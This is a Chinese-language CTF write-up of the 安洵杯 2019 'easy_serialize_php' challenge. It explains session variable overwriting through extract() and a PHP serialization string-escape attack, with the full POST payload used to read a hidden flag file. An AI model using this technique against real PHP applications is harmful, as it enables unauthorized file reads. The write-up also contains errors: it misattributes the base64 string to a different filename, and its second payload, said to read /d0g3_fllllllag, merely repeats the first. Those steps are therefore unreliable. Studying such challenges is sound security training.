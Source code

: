 # \[安洵杯 2019]easy\_serialize\_php

## \[安洵杯 2019]easy\_serialize\_php

## 考点

* 代码审计
* extract对session进行变量覆盖
* php反序列化逃逸

## wp

给了源码，先搞明白代码的逻辑

filter 函数将 `$img` 中含有的 数组中的元素 替换为 空，正则为 `/php|flag|php5|php4|fl1g/i`

```php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
```

GET传入`f`参数作为`function`，然后给session初始化，看到 `extract($_POST);` 说明有变量覆盖

```php
$function = @$_GET['f'];
$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;
extract($_POST);
if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}
```

传入`img_path`，如果`img_path`为空，就`base64_encode`字符串`guest_img.png`否则就先`base64_encode` `img_path` 再 sha1 加密

```php
if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}
```

然后就是对 session 进行序列化并执行 filter 函数，这里就会存在字符逃逸了

```php
$serialize_info = filter(serialize($_SESSION));
```

最后是对 `$_GET['f']` 的判断，执行不同功能

```php
if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

提示看phpinfo，在里面发现`auto_append_file d0g3_f1ag.php`，说明要看d0g3\_f1ag.php。且`session.serialize_handler`为`php`

![](<../../.gitbook/assets/image (27) (1) (1).png>)

现在的目的很明确，就是要读取`d0g3_f1ag.php`这个文件，利用逃逸使 session 中的 img 字段为 `ZDBnM19mMWFnLnBocA==` 即 `base64_encode(d0g3_f1ag.php)` ，然后在 `show_image` 中读取。

由于 `extract($_POST)` 的存在，可以利用变量覆盖修改 `$_SESSION["user"]`，`$_SESSION['function']` 和 `$function`，或者是在 `_SESSION` 中插入参数

先看一个正常的 session 文件经过序列化之后的结果，user 和 function 字段是可控的 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:10:"show_image";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这里就有两个位置可以逃逸，先看一下 function 这里 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:7:"`<mark style="color:red;">`aphpphp`</mark>`";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

filter 处理之后 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:7:"`<mark style="color:red;">`a";s:3:`</mark>`"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

我们的目标如下，发现只有 function行不通，覆盖掉 img 字段后，无法控制 object 的注入，就考虑结合 user 一起 `a:3:{s:4:"user";s:5:"guest";s:8:"function";s:39:"`<mark style="color:red;">`a";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==`</mark>`";s:6:"object";s:6:"inject";}`

变成如下这样 {1} {2} 为可控输入，要注入对象的话，{2} 的内容长度一定会大于 10，所以考虑覆盖掉 `";s:8:"function";s:10:"` ，长度为 23，扩展成 3 或 4 的倍数( 根据 filter 函数)，就是 `";s:8:"function";s:10:"a`

`a:3:{s:4:"user";s:5:"`<mark style="color:red;">`{1}`</mark>`";s:8:"function";s:10:"`<mark style="color:green;">`{2}`</mark>`";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这就变成这个样子 `a:3:{s:4:"user";s:24:"`<mark style="color:red;">`flagflagflagflagflagflag`</mark>`";s:8:"function";s:10:"a{2}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

经过 filter 函数处理

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark>`{2}";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

然后就是 {2} 的输入内容，要让 img 字段为 `ZDBnM19mMWFnLnBocA==` 即 `base64_encode(f1ag_a8f7b5e6.php)` ，还要闭合前面的 `"`，那么 {2} 就是 `";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";`

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这样还存在问题，黄色部分的`";` 如何处理，可以结合 php 反序列化在`}`后的数据将直接被丢弃这个特点，直接构造一个结束符。{2} 为 `";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

这还有一个问题，这个反序列化之后的数组应该有 3 个元素，这样构造只剩下 2 个，这就需要再加一个元素，随便加即可

`a:3:{s:4:"user";s:24:"`<mark style="color:red;">`";s:8:"function";s:10:"a`</mark><mark style="color:green;">`";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}`</mark><mark style="color:yellow;">`";`</mark>`s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}`

payload

```
POST
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}&function=show_image
```

![](<../../.gitbook/assets/image (9).png>)

再读取`/d0g3_fllllllag`，payload

```
POST
_SESSION[user]=flagflagflagflagflagflag&_SESSION[function]=a";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:1:"a";s:1:"a";}&function=show_image
```

## 小结

1. extract对session进行变量覆盖的条件是`session_start`在`extract`之前，参考[bestphp's revenge](bestphps-revenge.md)。
